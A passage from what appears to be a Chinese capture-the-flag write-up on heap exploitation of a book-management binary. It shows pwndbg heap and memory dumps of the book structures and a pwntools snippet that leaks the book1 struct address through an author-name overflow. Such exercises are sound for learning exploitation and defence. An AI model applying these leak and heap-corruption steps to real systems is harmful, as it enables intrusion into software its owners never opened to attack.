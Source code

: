 创建了一个book1,查看其堆情况

```
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x555555604000
Size: 0x1011

Allocated chunk | PREV_INUSE               //存储book1_name的堆块
Addr: 0x555555605010
Size: 0xa1

Allocated chunk | PREV_INUSE               //存储book1_description的堆块
Addr: 0x5555556050b0
Size: 0xa1

Allocated chunk | PREV_INUSE               //存储book1_struct的堆块
Addr: 0x555555605150
Size: 0x31

Top chunk | PREV_INUSE         
Addr: 0x555555605180
Size: 0x20e81
```

查看book1_struct地址中的内容

```
pwndbg> x /10gx 0x0000555555605160          //也是堆块Addr+0x10
0x555555605160:	0x0000000000000001	0x0000555555605020  //book1_id       book1_name_ptr
0x555555605170:	0x00005555556050c0	0x0000000000000090  //book1_description_ptr   book1_description_size
0x555555605180:	0x0000000000000000	0x0000000000020e81  //Top chunk  
0x555555605190:	0x0000000000000000	0x0000000000000000
0x5555556051a0:	0x0000000000000000	0x0000000000000000
```

查看book_name_ptr中的内容

```
pwndbg> x /gx 0x0000555555605020
0x555555605020:	0x0000315f6b6f6f62   //可以发现正好是我们输入的内容'book_1'
```

继续执行，将author_name输出

```
# leak boo1_struct addr
print_book(target)
target.recvuntil('a'*32)
temp = target.recvuntil('\x0a')
book1_struct_addr = u64(temp[:-1].ljust(8, '\x00'))
print('book1_struct_addr:'+hex(book1_struct_addr))
book2_struct_addr = book1_struct_addr + 0x30
print('book2_struct_addr:'+hex(book2_struct_addr))
```
